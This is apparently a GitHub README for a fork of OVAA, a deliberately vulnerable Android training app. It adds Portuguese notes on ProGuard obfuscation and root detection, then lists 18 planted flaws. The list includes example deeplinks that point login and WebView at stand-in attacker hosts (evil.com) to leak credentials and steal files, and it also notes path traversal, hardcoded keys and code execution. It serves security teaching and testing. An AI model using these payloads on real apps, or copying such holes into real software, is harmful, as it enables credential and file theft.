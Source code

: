 ## Description


# 🔒 Segurança no Aplicativo - ProGuard, Debug e Root Detection

Este projeto implementa diversas técnicas de segurança para **proteger contra engenharia reversa**, **detectar root e depuração**, além de **ativar a ofuscação de código com ProGuard**.

---

## 🚀 **Funcionalidades de Segurança Implementadas**
✅ **ProGuard ativado** para ofuscação de código  
✅ **Verificação de Debug (Prevenção de Análise)**  
✅ **Detecção de Root (Bloqueio de dispositivos rooteados)**  
✅ **Script para injetar segurança automaticamente**  

---

## 🔹 **1. Ativando o ProGuard (Ofuscação de Código)**

O **ProGuard** está ativado para garantir que o código seja **ofuscado**, dificultando a engenharia reversa.

📂 **Alterações no arquivo `app/build.gradle`**:
```gradle
buildTypes {
    release {
        minifyEnabled true  // 🔹 Ativa a ofuscação
        shrinkResources true // 🔹 Remove recursos não utilizados
        proguardFiles getDefaultProguardFile('proguard-android-optimize.txt'), 'proguard-rules.pro'
    }
}
```

📂 **Alterações no arquivo `proguard-rules.pro`**:

# 🔒 Impede que classes de segurança sejam removidas
-keep class oversecured.ovaa.activities.MainActivity { *; }

# 🔒 Ofusca todas as classes do app, exceto as Activities
-keep public class * extends android.app.Activity 
-dontwarn android.support.*

📌 Como testar se o código foi ofuscado?
Gere a versão release do APK:
```
./gradlew assembleRelease
```
Verifique o arquivo mapping.txt (gera os nomes ofuscados):
```
cat app/build/outputs/mapping/release/mapping.txt
```

🔹 2. Detecção de Debug (Proteção Contra Engenharia Reversa)
O app detecta se está sendo executado em um dispositivo rooteado e encerra a execução caso positivo.

📂 Alterações no MainActivity.java

Aproveite 🛡✨

###
OVAA (Oversecured Vulnerable Android App) is an Android app that aggregates all the platform's known and popular security vulnerabilities.

## List of vulnerabilities
This section only includes the list of vulnerabilities, without a detailed description or proof of concept. Examples from OVAA will receive detailed examination and analysis on [our blog](https://blog.oversecured.com/).

1. Installation of an arbitrary `login_url` via deeplink `oversecured://ovaa/login?url=http://evil.com/`. Leads to the user's user name and password being leaked when they log in.
2. Obtaining access to arbitrary content providers (not exported, but with the attribute `android:grantUriPermissions="true"`) via deeplink `oversecured://ovaa/grant_uri_permissions`. The attacker's app needs to process `oversecured.ovaa.action.GRANT_PERMISSIONS` and pass intent to `setResult(code, intent)` with flags such as `Intent.FLAG_GRANT_READ_URI_PERMISSION` and the URI of the content provider.
3. Vulnerable host validation when processing deeplink `oversecured://ovaa/webview?url=...`.
4. Opening arbitrary URLs via deeplink `oversecured://ovaa/webview?url=http://evilexample.com`. An attacker can use the vulnerable WebView setting `WebSettings.setAllowFileAccessFromFileURLs(true)` in the `WebViewActivity.java` file to steal arbitrary files by sending them XHR requests and obtaining their content.
5. Access to arbitrary activities and acquiring access to arbitrary content providers in `LoginActivity` by supplying an arbitrary Intent object to `redirect_intent`.
6. Theft of arbitrary files in `MainActivity` by intercepting an activity launch from `Intent.ACTION_PICK` and passing the URI to any file as data.
7. Insecure broadcast to `MainActivity` containing credentials. The attacker can register a broadcast receiver with action `oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA` and obtain the user's data.
8. Insecure activity launch in `MainActivity` with action `oversecured.ovaa.action.WEBVIEW`, containing the user's encrypted data in the query parameter `token`.
9. Deletion of arbitrary files via the insecure `DeleteFilesSerializable` deserialization object.
10. Memory corruption via the `MemoryCorruptionParcelable` object.
11. Memory corruption via the `MemoryCorruptionSerializable` object.
12. Obtaining read/write access to arbitrary files in `TheftOverwriteProvider` via path-traversal in the value `uri.getLastPathSegment()`.
13. Obtaining access to app logs via `InsecureLoggerService`. Leak of credentials in `LoginActivity` `Log.d("ovaa", "Processing " + loginData)`.
14. Use of the hardcoded AES key in `WeakCrypto`.
15. Arbitrary Code Execution in `OversecuredApplication` by launching code from third-party apps with no security checks.
16. Use of very wide file sharing declaration for `oversecured.ovaa.fileprovider` content provider in `root` entry.
17. Hardcoded credentials to a dev environment endpoint in `strings.xml` in `test_url` entry.
18. Arbitrary code execution via a DEX library located in a world-readable/writable directory.

---------------------------------------
*Licensed under the Simplified BSD License*

*Copyright (c) 2020, Oversecured Inc*

https://oversecured.com/
